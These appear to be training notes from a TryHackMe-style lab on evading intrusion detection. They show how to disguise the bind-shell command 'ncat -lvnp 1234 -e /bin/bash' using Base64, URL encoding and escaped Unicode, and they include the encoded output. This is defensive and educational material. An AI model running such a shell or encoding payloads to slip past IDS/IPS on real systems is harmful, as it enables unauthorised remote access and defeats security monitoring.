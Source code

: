 
- Consider the command `ncat -lvnp 1234 -e /bin/bash`

		- ncat will listen on TCP port 1234 and connect any incoming connection to the Bash shell.
		- There are a few common transformations such as 
				- Base64
				- URL Encoding
				- Unicode Escape sequence

- that you can apply to your command to avoid triggering IPS/IDS signatures.


### Encode to Base64 format

- You can use one of the many online tools that encode your input to Base64.
- Alternatively, you can use `base64` commonly found on Linux systems.

`$ cat input.txt`
`$ base64 input.txt`

![](/assets/img/Pasted image 20230126172228.png)


### URL Encoding

- URL encoding converts certain characters to the form `%HH`, where **HH** is the hexadecimal ASCII representation.
- English letters, period, dash and underscore are NOT affected.
- Reference: `https://datatracker.ietf.org/doc/html/rfc3986#section-2.4`


- One utility that you can easily install on your Linux system is `urlencode`.
- Alternatively, you can either use an online service or search for similar utilities on MS Windows and MacOS.
- To follow along on the AttackBox,


##### Install `urlencode` by running the command `apt install gridsite-clients`:

```
pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

- `ncat -lvnp 1234 -e /bin/bash` becomes `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash` after URL encoding.
- Depending what the IDS/IPS signature is matching, URL encoding might help evade detection.


### Use Escaped Unicode

- Some apps will still process your input and execute it properly if you use escaped Unicode.
- There are multiple ways to use escaped Unicode depending on the system processing the input string.

##### Using `Cyberchef` to configure the Escape Unicode characters recipe:
